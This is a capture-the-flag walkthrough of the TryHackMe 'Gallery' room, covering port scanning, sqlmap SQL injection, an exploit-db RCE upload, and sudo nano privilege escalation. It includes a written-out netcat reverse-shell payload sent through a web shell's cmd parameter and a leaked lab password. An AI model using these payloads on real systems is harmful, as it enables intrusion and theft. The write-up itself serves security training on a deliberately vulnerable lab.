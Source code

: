 # Gallery THM writeup
<a href = "https://tryhackme.com/room/gallery666"> https://tryhackme.com/room/gallery666 </a>



<h3>1. Question: How many ports are open?</h3>  <br>
Lets start with an nmap scan to get the number of open ports and also i may get a valueable port thats open in the server!
<br>

```
$ nmap 10.10.4.212          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 10:12 EDT
Nmap scan report for 10.10.4.212
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```

The server have 3 open ports, now i got the answer to the first question, **3**

<hr>

<h3>2. Question: What's the name of the CMS?</h3>
<br>
Opening the website on port 80, i get an apache ubuntu default page, this doesn't help much.. 
but i noticed that there is another web server running on port 8080! Lets check it!

Now the website provided us a login page and with the name of the CMS! **Simple Image Gallery**

<hr>

<h3>3. Question: What's the hash password of the admin user? </h3>
When sending a login request, i noticed that i get a suspicious response:

```
{"status":"incorrect","last_qry":"SELECT * from users where username = 'admin' and password = md5('test') "}
```
This gave me an idea that the Login page maybe got some SQL injection vulnerability!
Running sqlmap i can see it detected that the username paramater is vulnerable to an sql injection attack, now i could easily get the admin's passwords hash.
After some time, sqlmap found the hash of the password
```
$ sqlmap -r req.txt --dump
....
+----------------------------------+
| password                         |
+----------------------------------+
| a228b12a08b6527e7978cbe5d914531c |
+----------------------------------+
```

<hr>
<h3>4. Question: What's the user flag?</h3>
To get the user flag, i have to gain a shell on the system.
<br>
I searched for the CMS name and found a possible RCE exploit on exploit-db:
<a href = "https://www.exploit-db.com/exploits/50214"> https://www.exploit-db.com/exploits/50214 </a> <br>
I downloaded this to my machine and i ran it. <br><br>
The exploit uploaded a file to the server, which contained a ?cmd= paramter<br>

Run netcat in listener mode, so the remote host could connect to my Kali:<br>
```
$ ncat -nlvp 8001
```

I pasted my netcat script in the cmd parameter and i successfully got a more stable netcat reverse shell!
```
http://10.10.191.82/gallery/uploads/1760716080_TagogdgiydphbhaodrhLetta.php?cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Cbash+-i+2%3E%261%7Cnc+10.9.3.133+8001+%3E%2Ftmp%2Ff
```

<br>
I got shell as www-data, and found the first flag in mike's home directory, but only the user "mike" can read the user.txt, so i have to find a way to be mike!

```
www-data@ip-10-10-191-82:/home/mike$ ls -l
ls -l
total 12
drwx------ 2 mike mike 4096 May 24  2021 documents
drwx------ 2 mike mike 4096 May 24  2021 images
-rwx------ 1 mike mike   32 May 14  2021 user.txt
```

I downloaded linpeas, and ran it. While i was checking the output i noticed that when mike tried to use the command "sudo -l"
he did a typo, and revealed his password in the bash history
```
╔══════════╣ Searching passwords in history files
/var/backups/mike_home_backup/.bash_history:sudo -lb3stpassw0rdbr0xx
/var/backups/mike_home_backup/.bash_history:sudo -l
```

Now i could login to his account with mikes password: **"b3stpassw0rdbr0xx"** and read the user.txt!
```
mike@ip-10-10-191-82:~$ cat user.txt
THM{af05cd30bfed67849befd546ef}
```

<hr>

<h3>5. Question: What's the root flag?</h3>
I ran "sudo -l" and i noticed there is a program that i can run as root without password

```
mike@ip-10-10-191-82:/opt$ sudo -l
Matching Defaults entries for mike on ip-10-10-191-82:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on ip-10-10-191-82:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
<br><br>
What's inside of opt/rootkit.sh?
```
mike@ip-10-10-191-82:/opt$ cat rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
Aha, so if i run it as root, and write "read" in the input box (which will the sh script provide) it will open a nano UI as root!<br>
So basically if you have nano run as root, you can read any file on the system, and if i go with the /root/root.txt
it will paste the root flag in to the nano editor
<br>
<br>
(CTRL + k)
<br>
<img src = "insert.png">
<br>
<img src = "rootflag.png">
